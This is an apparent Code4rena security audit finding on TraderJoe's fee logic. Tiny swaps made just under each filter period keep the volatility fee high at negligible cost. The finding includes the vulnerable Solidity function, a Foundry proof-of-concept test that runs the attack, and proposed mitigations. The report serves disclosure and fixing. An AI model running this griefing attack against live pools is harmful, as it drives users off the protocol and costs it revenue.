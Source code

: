 ## Tags

- bug
- 2 (Med Risk)
- primary issue
- sponsor acknowledged
- selected for report
- M-05

# [Attacker can keep fees max at no cost](https://github.com/code-423n4/2022-10-traderjoe-findings/issues/430) 

# Lines of code

https://github.com/code-423n4/2022-10-traderjoe/blob/79f25d48b907f9d0379dd803fc2abc9c5f57db93/src/libraries/FeeHelper.sol#L58-L72


# Vulnerability details

## Description

The volatile fee component in TJ is calculated using several variables, as described [here](https://docs.traderjoexyz.com/concepts/fees). Importantly, Va (volatility accumulator) = Vr (volatility reference) + binDelta:

$v_a(k) = v_r + |i_r - (activeId + k)|$


Vr is calculated depending on time passed since last swap:

$v_r = \left\{\begin{matrix}
v_r, & t<t_f  \\ 
R \cdot  v_a & t_f <= t < t_d \\ 
0, & t_d <= t
\end{matrix}\right.$

Below is the implementation:

```
function updateVariableFeeParameters(FeeParameters memory _fp, uint256 _activeId) internal view {
        uint256 _deltaT = block.timestamp - _fp.time;

        if (_deltaT >= _fp.filterPeriod || _fp.time == 0) {
            _fp.indexRef = uint24(_activeId);
            if (_deltaT < _fp.decayPeriod) {
                unchecked {
                    // This can't overflow as `reductionFactor <= BASIS_POINT_MAX`
                    _fp.volatilityReference = uint24(
                        (uint256(_fp.reductionFactor) * _fp.volatilityAccumulated) / Constants.BASIS_POINT_MAX
                    );
                }
            } else {
                _fp.volatilityReference = 0;
            }
        }

        _fp.time = (block.timestamp).safe40();

        updateVolatilityAccumulated(_fp, _activeId);
    }
```

The critical issue is that when the time since last swap is below filterPeriod, Vr does not change, yet the last swap timestamp (_fp.time) is updated. Therefore, attacker (TJ competitor) can keep fees extremely high at basically 0 cost, by swapping just under every Tf seconds, a zero-ish amount. Since Vr will forever stay the same, the calculated Va will stay high (at least Vr) and will make the protocol completely uncompetitive around the clock.

The total daily cost to the attacker would be  (TX fee (around \$0.05 on AVAX)  + swap fee (~0) ) * filterPeriodsInDay (default value is 1728) = $87.

## Impact

Attacker can make any TraderJoe pair uncompetitive at negligible cost.

## Proof of Concept

Add this test in LBPair.Fees.t.sol:

```
function testAbuseHighFeesAttack() public {
        uint256 amountY = 30e18;
        uint256 id;
        uint256 reserveX;
        uint256 reserveY;
        uint256 amountXInForSwap;
        uint256 amountYInLiquidity = 100e18;
        FeeHelper.FeeParameters memory feeParams;

        addLiquidity(amountYInLiquidity, ID_ONE, 2501, 0);

        //swap X -> Y and accrue X fees
        (amountXInForSwap,) = router.getSwapIn(pair, amountY, true);

        (reserveX,reserveY,id ) = pair.getReservesAndId();
        feeParams = pair.feeParameters();
        console.log("indexRef - start" , feeParams.indexRef);
        console.log("volatilityReference - start" , feeParams.volatilityReference);
        console.log("volatilityAccumulated - start" , feeParams.volatilityAccumulated);
        console.log("active ID - start" , id);
        console.log("reserveX - start" , reserveX);
        console.log("reserveY - start" , reserveY);

        // ATTACK step 1 - Cross many bins / wait for high volatility period
        token6D.mint(address(pair), amountXInForSwap);
        vm.prank(ALICE);
        pair.swap(true, DEV);

        (reserveX,reserveY,id ) = pair.getReservesAndId();
        feeParams = pair.feeParameters();
        console.log("indexRef - swap1" , feeParams.indexRef);
        console.log("volatilityReference - swap1" , feeParams.volatilityReference);
        console.log("volatilityAccumulated - swap1" , feeParams.volatilityAccumulated);
        console.log("active ID - swap1" , id);
        console.log("reserveX - swap1" , reserveX);
        console.log("reserveY - swap1" , reserveY);

        // ATTACK step 2 - Decay the Va into Vr
        vm.warp(block.timestamp + 99);
        token18D.mint(address(pair), 10);
        vm.prank(ALICE);
        pair.swap(false, DEV);

        (reserveX,reserveY,id ) = pair.getReservesAndId();
        console.log("active ID - swap2" , id);
        console.log("reserveX - swap2" , reserveX);
        console.log("reserveY - swap2" , reserveY);
        feeParams = pair.feeParameters();
        console.log("indexRef - swap2" , feeParams.indexRef);
        console.log("volatilityReference - swap2" , feeParams.volatilityReference);
        console.log("volatilityAccumulated - swap2" , feeParams.volatilityAccumulated);


        // ATTACK step 3 - keep high Vr -> high Va
        for(uint256 i=0;i<10;i++) {
            vm.warp(block.timestamp + 49);

            token18D.mint(address(pair), 10);
            vm.prank(ALICE);
            pair.swap(false, DEV);

            (reserveX,reserveY,id ) = pair.getReservesAndId();
            console.log("**************");
            console.log("ITERATION ", i);
            console.log("active ID" , id);
            console.log("reserveX" , reserveX);
            console.log("reserveY" , reserveY);
            feeParams = pair.feeParameters();
            console.log("indexRef" , feeParams.indexRef);
            console.log("volatilityReference" , feeParams.volatilityReference);
            console.log("volatilityAccumulated" , feeParams.volatilityAccumulated);
            console.log("**************");
        }

    }
```

## Tools Used

Manual audit, foundry

## Recommended Mitigation Steps

Several options:

1\. Decay linearly to the time since last swap when T < Tf.

2\. Don't update _tf.time if swap did not affect Vr

3\. If T<Tf, only skip Vr update if swap amount is not negligible. This will make the attack not worth it, as protocol will accrue enough fees to offset the lack of user activity.

### Severity level

I argue for HIGH severity because I believe the impact to the protocol is that most users will favor alternative AMMs, which directly translates to a large loss of revenue. AMM is known to be a very competitive market and using high volatility fee % in low volatility times will not attract any users.